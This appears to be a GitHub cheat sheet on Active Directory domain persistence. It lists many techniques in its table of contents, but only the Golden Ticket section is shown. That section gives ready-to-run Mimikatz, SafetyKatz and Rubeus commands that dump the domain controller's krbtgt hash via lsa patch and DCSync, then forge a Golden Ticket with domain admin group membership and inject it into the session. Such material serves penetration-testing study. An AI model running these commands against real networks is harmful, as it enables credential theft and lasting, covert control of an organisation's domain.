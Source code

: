 # Domain persistence
* [Golden Ticket](#Golden-Ticket) 
* [Silver Ticket](#Silver-Ticket)
* [Diamond ticket](#Diamond-Ticket)
* [Skeleton Key](#Skeleton-Key)
* [DSRM](#DSRM)
* [Custom SSP - Track logons](#Custom-SSP---Track-logons)
* [ACL](#ACL)
  * [AdminSDHolder](#AdminSDHolder)
  * [DCsync](#DCsync)
  * [SecurityDescriptor - WMI](#SecurityDescriptor---WMI)
  * [SecurityDescriptor - Powershell Remoting](#SecurityDescriptor---Powershell-Remoting)
  * [SecurityDescriptor - Remote Registry](#SecurityDescriptor---Remote-Registry)
  * [msDS-AllowedToDelegateTo](#msDS-AllowedToDelegateTo)
* [Computer Account](#Computer-Account)
* [LAPS](#LAPS)
* [Active Directory Certificate Services](#Active-Directory-Certificate-Services)
  * [PERSIST1 User account new certificate](#PERSIST1-User-account-new-certificate)
  * [PERSIST2 Machine Account new certificate](#PERSIST2-Machine-Account-new-certificate)
  * [PERSIST3 Certificate Renewal](#PERSIST3-Certificate-Renewal)
  * [DPersists1 Certificate forgery with stolen CA keys](#DPersists1-Certificate-forgery-with-stolen-CA-keys)
  * [Dpersist3 Configure vulnerable template](#Dpersist3-Configure-vulnerable-template)

## Golden ticket
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets

#### Dump hashes of DC
- Get the krbtgt hash
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

```
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

#### Create a Golden ticket
- Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process
- To get the SID use ```Get-DomainSID``` from powerview
```
.\Rubeus.exe golden /aes256:<KRBTGT AES KEY> /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN SID> /nowrap
```

```
Invoke-Mimikatz -Command '"kerberos::golden /User:<USER> /domain:<DOMAIN> /sid:<DOMAIN SID> /krbtgt:<HASH> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
